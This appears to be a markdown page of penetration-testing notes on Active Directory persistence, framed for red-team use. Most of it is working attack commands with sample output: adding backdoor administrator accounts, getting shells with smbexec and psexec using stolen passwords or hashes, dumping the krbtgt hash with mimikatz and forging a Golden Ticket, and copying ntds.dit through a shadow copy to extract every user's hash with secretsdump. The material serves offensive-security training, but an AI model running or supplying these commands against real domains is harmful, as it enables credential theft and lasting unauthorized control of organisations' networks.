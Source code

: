 # Active Directory Persistence

Techniques aimed at maintaining an attacker's foothold on the target network.
Could be employed during penetration testing or red-teaming exercises whose rules of engagement mandate we retain long-term access to the compromised environment.

- <https://attack.mitre.org/tactics/TA0003/>








After gaining the the system/root access of the system.
Adding another root/administrator user to the system for future access so that you don't have to hack into again.

1. Inject admin group user
net user tmp PW /add
net localgroup Administrator tmp /add
Then use winrm/rdp to access if available
2. If you own the admin creds/hash
smbexec.py for administrator shell
smbexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
smbexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
psexec.py for system shell
psexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
psexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH




net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD







## Golden Ticket
If we can get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.

Although this technique's name resembles the Silver Ticket, Golden Tickets provide a more powerful attack vector.

While Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets give us permission to access the entire domain's resources.


The best advantage is that the krbtgt account password is not automatically changed. This password is only changed when the DOMAIN FUNCTIONAL LEVEL is upgraded from a pre-2008 Windows server, but not from a newer version. Because of this, it is not uncommon to find very old krbtgt password hashes.
(The Domain Functional Level dictates the capabilities of the domain and determines which Windows operating systems can be run on the domain controller. Higher functional levels enable additional features, functionality, and security mitigations. See: <https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels>)




Example:

1.
To test this persistence technique, we will first attempt to laterally move from the Windows 11 `CLIENT74` workstation to the domain controller via `PsExec` as the `jen` user by spawning a traditional command shell with the cmd command. This should fail because we do not have the proper permissions.
```
PsExec64.exe \\DC1 cmd.exe
# Output: Access is denied.
```


2.
Requisite: have access to a Domain Admin's group account or to have compromised the domain controller itself.

To simulate this, we'll log in to the domain controller with remote desktop using the jeffadmin account. Then we will run:
```
privilege::debug
lsadump::lsa /patch

# Output:
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```

We obtained the NTLM hash of the krbtgt account, along with the domain SID, we can now forge and inject our golden ticket.


Now on the normal user account (jen):

Before we generate the golden ticket let's launch mimikatz and delete any existing Kerberos tickets
```
kerberos::purge
```

Then create the golden ticket:
```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

With the golden ticket injected into memory, let's use `PsExec` to launch a new command prompt with `misc::cmd`.

```
misc::cmd

C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe
C:\Tools\SysinternalsSuite>whoami
# Output: corp\jen
C:\Tools\SysinternalsSuite>whoami /groups
...
CORP\Domain Admins
...
```
We verified that our user jen is now part of the Domain Admin group.

Note that by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication.

If we were to connect `PsExec` to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked.


































## Shadow Copies

A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.

- <https://en.wikipedia.org/wiki/Shadow_Copy>


To manage volume shadow copies, the Microsoft signed binary `vshadow.exe` is offered as part of the Windows SDK.

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database `NTDS.dit` database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.



Connected as domain admin user to the DC1 domain controller, launch an elevated command prompt and run the vshadow utility with `-nw` options to disable writers, which speeds up backup creation and include the `-p` option to store the copy on disk.

```
vshadow.exe -nw -p  C:

# Output:
...
- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
...
```

Once the snapshot has been taken successfully, we should take note of the shadow copy device name.
Then copy the whole AD Database from the shadow copy to the `C:` drive root folder by specifying the shadow copy device name and adding the full `ntds.dit` path.
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

Finally, to correctly extract the content of ntds.dit, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the `reg` utility and the `save` argument.
```
reg.exe save hklm\system c:\system.bak
```


Once the two `.bak` files are moved to our Kali machine, we can continue extracting the credential materials with the `secretsdump` tool from the `impacket` suite. We'll supply the ntds database with the `-ntds` parameter and the system hive with the `-system` parameter. Then we will tell impact to parse the files locally by adding the LOCAL keyword.

```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

# Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
...
```

We managed to obtain NTLM hashes and Kerberos keys for every AD user. We can now try to crack them or use as-is in pass-the-hash attacks!


NOTE: while these methods might work fine, they leave an access trail and may require us to upload tools.

An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation. To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user, using the DC sync method. This is a less conspicuous persistence technique that we can misuse.













